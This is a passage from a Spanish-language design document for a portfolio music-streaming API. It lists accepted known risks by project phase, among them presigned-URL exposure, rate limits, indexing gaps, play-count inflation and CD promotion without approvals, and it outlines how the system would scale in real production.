  ~1.2GB/minuto de forma sostenida. Aceptado para el alcance de portfolio.
- **URL de streaming filtrada = acceso a los bytes de audio sin ninguna sesión durante 15 min**
  (Fase 9): a diferencia del catálogo público (que exige `Authorization: Bearer` en cada request),
  una URL SigV2/SigV4 lleva la autorización *en la propia URL* — quien la consiga (compartida,
  capturada en logs de un proxy/analytics de terceros, historial de navegador) puede reproducir el
  audio sin sesión mientras no expire. Salto real, aunque acotado (15 min, sin alcance) y aceptado.
- **Sin revocación manual de URLs firmadas ya emitidas** (Fase 9): no existe ese mecanismo en
  S3/MinIO sin IAM/políticas más complejas — mitigado solo por la expiración corta.
- **Endpoint de streaming sin tier de rate limit propio** (Fase 9): comparte el tier `general`
  (60/min) del resto de `/songs` — un usuario podría generar enlaces de descarga de todo el
  catálogo en bucle. Mitigado parcialmente (metadatos ya públicos, URLs expiran rápido), no
  eliminado.
- **`s3_public_endpoint_url` asume que el navegador del cliente y el servidor comparten host**
  (Fase 9): correcto para el alcance actual (desarrollo local, `docker compose up`), pero un
  despliegue real en una red distinta (ej. servidor remoto, dominio público) necesitaría más que
  solo fijar esa variable al hostname público (hallazgo de la revisión post-implementación,
  encontrado por el abogado del diablo): (a) **HTTPS/mixed-content** — si el frontend se sirve por
  HTTPS, el navegador bloquearía cargar `audio.src` desde una presigned URL `http://`, y la propia
  firma va ligada al scheme+host exactos, así que MinIO tendría que servir por HTTPS también; (b)
  **CORS del bucket** — un `<audio src>` plano no necesita CORS para reproducir, pero cualquier
  consumo vía `fetch()`/MediaSource sí lo exigiría, y hoy el bucket no tiene ninguna configuración
  de CORS. Ninguno de los dos se ha implementado — quedan fuera del alcance de esta fase (solo
  desarrollo local/Docker Compose), documentados aquí para no perderlos de vista.
- **Canciones subidas antes de la Fase 10 no están indexadas** (Fase 10): sin backfill/script de
  reindexación en el alcance actual — solo se indexan canciones que pasan por `upload_song` a
  partir de esta fase. Quedarían invisibles a `GET /songs/search` (aunque sí siguen apareciendo en
  `GET /songs`) hasta una reindexación manual futura.
- **Sin reconciliación automática si la indexación falla** (Fase 10): si `index_song` falla (best
  effort, ver Decisiones técnicas), no hay retry ni cola que reintente más tarde — la canción queda
  reproducible pero invisible a la búsqueda. La Fase 11 introdujo Celery pero acotado a
  recomendaciones (ver esa sección), este gap sigue sin resolver, mismo principio que las filas
  atascadas en `status="processing"` de la Fase 8.
- **Meilisearch de un único nodo, sin réplica** (Fase 10): mismo riesgo ya aceptado para
  Postgres/MinIO en fases anteriores — sin alta disponibilidad, aceptado para el alcance de un
  proyecto de portfolio.
- **Puerto 7700 publicado al host** (Fase 10): necesario para que los tests corran desde el host
  contra infraestructura real (ver Decisiones técnicas) — protegido únicamente por la master key
  (`MEILISEARCH_API_KEY`), sin capa de red adicional. Mismo nivel de exposición que Postgres/Redis/
  MinIO, que ya publican sus puertos por el mismo motivo.
- **La subida de audio sigue síncrona** (Fase 11): pese a que Celery ya existe en el proyecto desde
  esta fase, el alcance se acotó explícitamente a recomendaciones (decisión del usuario) — el
  agotamiento del threadpool bajo subidas concurrentes y las filas `status="processing"` atascadas
  (Fase 8) siguen sin resolver, pendientes de una fase futura.
- **`recompute_all_recommendations` recorre TODOS los usuarios en cada ciclo, sin recálculo
  incremental** (Fase 11): mitigado por el rediseño de una sola query agregada por ciclo (no
  escala con `song_plays` × usuarios), pero sigue siendo O(usuarios) por ciclo — límite de escala
  real para un número de usuarios muy grande, aceptado para el alcance de portfolio.
- **La señal de "play" es un proxy, no una escucha confirmada, y no tiene deduplicación** (Fase 11):
  `GET /songs/{id}/stream` registra "el usuario pidió esta URL", no "escuchó la canción completa" —
  no hay UI de reproducción en este proyecto (Fase 9). Sin deduplicación ni throttle específico más
  allá del tier `general` del rate limiter, un usuario podría inflar el conteo de reproducciones de
  una canción propia repitiendo la request, lo que además contamina el fallback de popularidad
  *global* que ven otros usuarios. Aceptado, documentado, sin gobierno adicional (hallazgo de la
  revisión del plan).
- **Registro de plays best-effort: puede perderse silenciosamente** (Fase 11): si el insert en
  `song_plays` falla, se loguea y no se reintenta — esa reproducción concreta no contribuirá a
  futuras recomendaciones, sin que el usuario lo note (el streaming sigue funcionando igual).
- **Sin backfill de recomendaciones para usuarios ya existentes hasta el primer ciclo de Beat**
  (Fase 11): un usuario registrado justo antes de desplegar esta fase ve `GET
  /users/me/recommendations` vacío hasta que Beat corra su primer ciclo (máximo 5 min) — estado
  normal y documentado, no un error.
- **`celery-worker`/`celery-beat` sin réplicas, un único worker** (Fase 11): mismo criterio ya
  aceptado para `app`/Postgres/MinIO — sin alta disponibilidad, aceptado para el alcance de un
  proyecto de portfolio. El lock de Redis contra pases solapados no fue diseñado para coordinar
  múltiples workers, solo para evitar que el mismo worker acumule pases pendientes.
- **"Popular" sin ventana temporal, deriva indefinidamente** (Fase 12): el ranking agrega TODO el
  histórico de `song_plays` desde el origen, sin decaimiento por tiempo — una canción viral hace
  mucho permanece arriba para siempre aunque nadie la escuche ya. Fuera de alcance ("popular por
  periodo" no se implementó), aceptado.
- **Sin protección anti-stampede en el caché de popular** (Fase 12): bajo concurrencia alta justo
  al expirar el TTL, varias requests podrían recalcular el ranking a la vez (mismo resultado, solo
  trabajo duplicado contra Postgres, no un resultado incorrecto). Riesgo aceptado, no se replicó el
  lock atómico ya construido para el recompute de la Fase 11 — sobre-ingeniería para el tráfico
  esperado de un portfolio.
- **Hasta 5 min de retraso entre un play y que afecte el ranking de "popular"** (Fase 12): el TTL
  del caché es la única fuente de refresco, sin invalidación activa al registrarse un nuevo play —
  mismo tipo de retraso ya aceptado para las recomendaciones de la Fase 11 (ahí por el intervalo de
  Beat, aquí por el TTL del caché).
- **Sin resolución de reintentos/requests duplicadas** (Fase 13): un reintento automático del mismo
  cliente con un cuerpo ya viejo puede sobreescribir un estado más fresco de otro dispositivo — sin
  número de secuencia ni idempotency key para detectarlo. Aceptado para el alcance de un portfolio.
- **"Parpadeo" (flickering) entre dispositivos legítimos** (Fase 13): dos pestañas del mismo
  usuario reproduciendo la MISMA canción y reportando posición cada pocos segundos se pisan
  constantemente entre sí sobre la única clave compartida, aunque ambas sean reproducciones
  legítimas — inherente al diseño de "un solo puntero global por usuario", sin mecanismo para
  evitarlo.
- **Validación de `song_id` contra Postgres en cada `PUT`** (Fase 13): razonable para el volumen de
  un portfolio, pero si un reproductor real reportara posición cada ~5s por dispositivo activo,
  sería una query a Postgres por cada heartbeat de cada dispositivo de cada usuario activo — límite
  de escala documentado, no resuelto.
- **El polling de playback comparte el presupuesto de rate limit `general`** (Fase 13) con el resto
  de `/users`, `/auth`, `/2fa` y `/songs` del mismo usuario — dos dispositivos haciendo `PUT`+`GET`
  cada pocos segundos consumen una porción real de ese presupuesto compartido, pudiendo interferir
  con otras acciones legítimas del mismo usuario bajo ráfaga. Sin tier propio, aceptado.
- **Sin gestión de dispositivos** (Fase 13): `device_id` es un string libre sin registro previo, sin
  límite de cuántos `device_id` distintos puede usar un usuario, sin listado de dispositivos activos
  ni revocación. Fuera de alcance de esta fase.
- **Sin servidor/entorno real que consuma los tags publicados** (Fase 14): "staging"/"producción"
  son tags de imagen, no infraestructura desplegada — decisión explícita del usuario, sin cuenta de
  nube disponible. Documentado como diseño teórico en "Cómo escalaría esto en producción real".
- **`build-and-push` reconstruye en vez de reutilizar el artefacto exacto de CI** (Fase 14): dos
  builds separados del mismo commit — con la imagen base pinneada el riesgo de deriva es bajo, pero
  no es imposible (ej. un paquete del sistema operativo cambiando de versión entre ambos builds si
  el mirror de Debian se actualiza justo en medio). Aceptado, no resuelto.
- **`workflow_run` con `types: [completed]` genera un run "vacío" en CD si CI falla** (Fase 14):
  ningún job de `cd.yml` matchea su `if:` en ese caso, así que el run aparece sin ningún job
  ejecutado en la pestaña Actions — ruido cosmético aceptado, no se añadió un job "no-op" solo para
  evitarlo.
- **Sin protección contra que un colaborador con permiso de escritura dispare `workflow_dispatch`
  con un `target_sha` que apunte a un commit problemático** (Fase 14): la validación solo comprueba
  formato (7 hex) y que el tag exista en el registry, no ninguna política de "qué SHAs son
  promovibles" — cualquier build ya publicado en `sha-<...>` puede convertirse en `production`. Sin
  aprobaciones ni environments protegidos de GitHub configurados. Aceptado para el alcance de un
  portfolio de un único mantenedor.
- **Placeholder `cd.yml` fallando en cada push (investigado durante la planificación, ver Resumen)**:
  causa exacta no determinada sin logs autenticados — a confirmar empíricamente si el comportamiento
  desaparece tras darle contenido real a `cd.yml`, o si persiste y requiere investigación adicional.

## Cómo escalaría esto en producción real

Esta sección consolida notas parciales ya dejadas en fases anteriores (9, 12, 13, 14) sobre qué
cambiaría si este proyecto sirviera tráfico real, en vez de duplicar el razonamiento — cada punto
enlaza a la fase que lo motivó y a su entrada correspondiente en Riesgos conocidos.

**Balanceo de carga y réplicas de la API (Fases 6, 7)**: el rate limiter ya está diseñado desde la
Fase 6 para múltiples réplicas (estado compartido en Redis, no en memoria local), pero hoy corre un
único contenedor `app` (Fase 7) — el diseño multi-réplica sigue siendo teórico hasta que exista un
balanceador delante. En producción real: N réplicas del contenedor `app` detrás de un balanceador
(nginx, un ALB, Traefik), todas compartiendo el mismo Redis/Postgres. Dos cambios necesarios que hoy
no están resueltos: (a) mover `alembic upgrade head` del `ENTRYPOINT` a un job/init-container
separado que corra una sola vez antes de que las réplicas arranquen — Alembic no tiene locking
distribuido, así que N réplicas ejecutando la migración a la vez es una condición de carrera (riesgo
aceptado de la Fase 7, ver "Migraciones automáticas del `ENTRYPOINT` no soportan réplicas
concurrentes" en Riesgos conocidos); (b) el rate limiter dejaría de poder usar `request.client.host`
de forma fiable — un balanceador/proxy delante rompe esa asunción, haría falta leer
`X-Forwarded-For` (o el header equivalente del balanceador elegido) de forma explícita y validada,
en vez del fallback a IP de conexión TCP directa que usa hoy (asunción explícita de la Fase 6, ver
Decisiones técnicas de esa fase).

**CDN y distribución de audio (Fase 9)**: hoy el cliente descarga el audio directo de MinIO vía URL
presignada (data plane) tras pedir la URL a la API (control plane) — patrón que ya evita que la API
reenvíe bytes de audio, pero MinIO sigue siendo un único nodo sin distribución geográfica. En
producción real: un CDN (CloudFront, Cloudflare) delante del bucket, con la API generando URLs
firmadas que el CDN valida y cachea en el edge — reduce latencia para usuarios lejos de la región
del bucket y quita carga de ancho de banda a MinIO/S3 directamente. Dos gaps ya documentados en la
Fase 9 que un despliegue real tendría que cerrar primero (ver Riesgos conocidos, entrada
`s3_public_endpoint_url`): HTTPS de extremo a extremo (hoy se asume que cliente y servidor comparten
host — un CDN con TLS resolvería el mixed-content, pero exige que el origin también hable HTTPS) y
una política CORS en el bucket (hoy no configurada, necesaria en cuanto el frontend consuma el audio
vía `fetch()`/MediaSource en vez de un `<audio src>` plano).

**Estado de reproducción a gran escala (Fase 13)**: `PUT /users/me/playback` guarda el estado en una
key de Redis con TTL de 24h — funciona bien para el volumen de un portfolio, pero un reproductor
real reportando posición cada ~5s por dispositivo activo generaría un write por heartbeat por
dispositivo por usuario activo (límite de escala ya documentado en la Fase 13, sin resolver). Redis
sigue siendo razonable como *caché* de "último estado conocido" para lecturas rápidas, pero un
volumen de escritura tan alto y sostenido es exactamente el caso de uso para el que existe Cassandra
(u otra base de columnas anchas, ScyllaDB): escrituras masivas, sin necesidad de transacciones,
particionadas naturalmente por `user_id`+`device_id`, con TTL nativo por columna equivalente al TTL
de Redis de hoy. El cambio no sería trivial — sustituye un almacén clave-valor único por un modelo de
particionado explícito — pero es la pieza de este proyecto donde el patrón de acceso actual (muchas
escrituras pequeñas, idempotentes, con expiración) más se aleja de lo que Redis en un único nodo
puede sostener indefinidamente.

**Contenido popular a escala (Fase 12)**: el ranking de `GET /songs/popular` agrega hoy todo el
histórico de `song_plays` sin ventana temporal (deriva indefinidamente, ver Riesgos conocidos de esa
fase) y no tiene protección anti-stampede (aceptado, tráfico de portfolio). A escala real: (a) una
ventana temporal (ej. "popular últimos 7 días") requeriría indexar `song_plays.played_at`, cambiando
la agregación de "todo el histórico" a un rango — hoy fuera de alcance porque no se implementó
"popular por periodo"; (b) el recálculo periódico ya construido para recomendaciones (Fase 11, con
su lock atómico en Redis) es el mismo patrón que resolvería el anti-stampede aquí, si el tráfico lo
justificara — no se replicó en la Fase 12 por ser sobre-ingeniería para el volumen esperado.

**Despliegue real (Fase 14, diseño teórico, no implementado)**: sin servidor real disponible, lo
que un pipeline de CD completo haría después de que `cd.yml` mueva el tag `production` en GHCR es
notificar a un sistema externo que ya observa ese tag — por ejemplo Watchtower o un webhook simple
en el propio servidor que hace `docker pull` + `docker compose up -d` al detectar un tag nuevo, o
un operador tipo ArgoCD/Flux si el destino fuera Kubernetes. Con un único servidor (el caso más
realista para el presupuesto de un portfolio, un VPS pequeño) el patrón más simple y razonable
sería: el propio servidor corre un cliente ligero (`watchtower` apuntando a
`ghcr.io/.../repo:production` con polling cada N minutos, o un webhook que reciba una notificación
de GitHub Actions) que hace el `pull`+restart — sin necesidad de que el servidor exponga ningún
puerto SSH al pipeline de CI/CD, reduciendo la superficie de ataque (el servidor "tira" del cambio
en vez de que CI/CD "empuje" credenciales SSH hacia él). Rollback en ese modelo es exactamente la
misma operación ya implementada en `cd.yml` (mover `production` a un SHA anterior) — el servidor lo
recogería en el siguiente poll sin ningún cambio adicional.
